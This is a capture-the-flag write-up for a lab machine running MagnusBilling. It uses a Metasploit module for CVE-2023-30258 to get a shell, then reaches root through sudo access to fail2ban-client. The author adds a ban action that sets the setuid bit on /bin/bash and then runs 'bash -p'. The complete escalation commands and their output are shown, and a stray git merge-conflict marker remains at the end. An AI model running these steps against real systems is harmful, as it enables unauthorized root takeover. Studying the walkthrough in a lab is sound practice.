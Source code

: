 theme: jekyll-theme-minimal
# Billing

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

nmap -sC -sV 10.10.45.158

![alt text](image.png)

After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.
![alt text](image-1.png)
This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.
Let's call it from Metasploit, it's much easier
    ![alt text](image-2.png)
 #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                          

   Don't forget to Set the RHOSTS and LHOST
    ![alt text](image-3.png)
    We are in, let's go more in depth
    ![alt text](image-4.png)
    i wanted to work with the bash, not shell from msfconsole 
    ![alt text](image-5.png)
    Make interactive with python -> python3 -c 'import pty; pty.spawn("/bin/bash")'
    ![alt text](image-6.png)
    User.txt flag 
    ![alt text](image-7.png)
asterisk@ip-10-10-45-158:/home/magnus$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-45-158:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-45-158:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
There you can find an approach to customize a config in the config directory and place code in it that is to be executed with root permissions. Unfortunately, we only have read-only access to the directory...

cat /etc/fail2ban
![alt text](image-8.png)
fail2ban-client is a command-line interface that allows us to interact with, configure, and control the fail2ban-server. To give a brief explanation, fail2ban is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, fail2ban-server is running as root, as expected.
![alt text](image-9.png)
Jails are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

'''bash
asterisk@ip-10-10-45-158:/etc/fail2ban$  /usr/bin/fail2ban-client set asterisk-manager
<ban$  /usr/bin/fail2ban-client set asterisk-manager
2025-08-30 07:51:34,904 fail2ban                [50777]: ERROR   Permission denied to socket: /var/run/fail2ban/fail2ban.sock, (you must be root)
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager addaction evil
<fail2ban-client set asterisk-manager addaction evil
evil
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager action evil actionban "chmod +s /bin/bash"
<-manager action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4
</fail2ban-client set asterisk-manager banip 1.2.3.4
1
asterisk@ip-10-10-45-158:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ /bin/bash -p 
/bin/bash -p 
bash-5.2# whoami
whoami
root
bash-5.2# 
<<<<<<< HEAD
'''
![alt text](image-10.png)
=======
![alt text](image-10.png)
>>>>>>> 793122a9fb4fe02fdf0d28cb9e1d2f30f03caf31
